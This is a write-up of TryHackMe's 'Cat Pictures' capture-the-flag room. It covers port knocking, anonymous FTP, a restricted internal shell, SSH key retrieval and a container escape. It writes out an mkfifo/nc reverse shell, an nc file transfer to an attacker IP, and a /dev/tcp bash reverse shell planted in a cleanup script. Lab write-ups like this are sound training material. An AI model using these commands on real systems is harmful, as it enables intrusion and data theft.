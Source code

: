 ```bash
# PLATFORM          . THM
# CTF NAME          . Cat Pictures
# DESCRIPTION       . I made a forum where you can post cute cat pictures!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/catpictures
```

```
sudo nmap -sSVC -T5 -p- 10.10.60.246 -oN cats
```

```
PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37436480d35a746281b7806b1a23d84a (RSA)
|   256 53c682efd27733efc13d9c1513540eb2 (ECDSA)
|_  256 ba97c323d4f2cc082ce12b3006189541 (ED25519)

2375/tcp filtered docker
4420/tcp open     nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:

8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

#### PORT 21 

- Filtered, can't connect.

#### PORT 4420 

- Seems to be an interactive shell, but we don't have the credentials.

#### PORT 8080

- I noticed that there are 1 total registered users, and the only post on the forum is made by user `user`, so I assumed he must be the only account created. The post contains the following message

```
POST ALL YOUR CAT PICTURES HERE :)

Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- I tried a lot of things after this, including fuzzing for potential directories but I had no clear path so I've decided to help myself with a writeup.

- The message in the post I've found should make us think of "[port knocking](https://en.wikipedia.org/wiki/Port_knocking)", something I wasn't familiar with upon this point. 

 - I've used [this](https://github.com/grongor/knock) tool to knock on ports `1111`, `2222`, `3333` and `4444`. 

- After this, considering the information found on wikipedia, I've scanned the target with nmap again.

- This time, the FTP service wasn't filtered anymore.

#### PORT 21

- I was able to login using `anonymous` and to download the only file available, `note.txt`.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is {REDACTED}.
- catlover
```

#### PORT 4420 

- We're able to authenticate to this remote shell. However, we have very limited functionality. 
- `cd` is **NOT** working, as we were informed, but also a lot of other commands are missing. (even `mkdir`)

- Using `ls`, I found the following binaries on the system

```bash
ls /bin

bash
cat
echo
ls
nc
rm
sh
```

```bash
ls /usr/bin

mkfifo
touch
wget
```

- Also, there is one binary called `runme` in `/home/catlover` but it is password protected.

- I tried using `nc` to transfer the binary to my own system but it didn't work, so I've assumed this had something to do with the shell.

- If we use `/bin/bash`, we're unable to see any output. 
- So let's create a reverse shell first.

**ON ATTACKER BOX**

```
nc -nvlp 3132
```

**ON INTERACTIVE SHELL**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 3132 >/tmp/f
```

- Yes, this is from revshells. But notice that i've replaced `sh` with `bash`.

- Now that we have a "proper" reverse shell, we can transfer the `runme` binary using `nc`.

**ON ATTACKER BOX

```
nc -nvlp 5678 > runme
```

**ON REV SHELL**

```
nc -N attacker_IP 5678 < /home/catlover/runme
```

- Now that we have the binary locally, I've used `strings` to do a basic examination.

```
r{REDACTED}
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
```

- The password can be found in plaintext, alongside some hints to the binary's functionality.

- It'll copy a (hopefully) private SSH key to `/tmp/gibmethesshkey`. Right? NO!!! :) I've lost a LOT of time on this, thinking that I got something wrong with `nc` not receiving the content of the file, but the actual `id_rsa` file is created in `/home/catlover` :| 

- I've transfered the `id_rsa` key using the same method as above and I've `chmod`'ed it to `600`. 

```
ssh -i key catlover@boxIP
```

```
root@7546fa2336d6:/# id
uid=0(root) gid=0(root) groups=0(root)
```

- The first flag is in `/root/flag.txt`.

- However, considering the hostname, `7546fa2336d6`, I was thinking that we might be in a container.

- After some time I found an unusual script in `/opt/clean`, called `clean.sh`.

```
#!/bin/bash

rm -rf /tmp/*
```

- So i've replaced the `rm` command with a `bash reverse shell`. 

```
bash -i >& /dev/tcp/IP/3132 0>&1
```

```
root@cat-pictures:~# id
uid=0(root) gid=0(root) groups=0(root)
```

- Notice the different host name. We're out of the container :) 

- The last flag is in `/root/root.txt`.
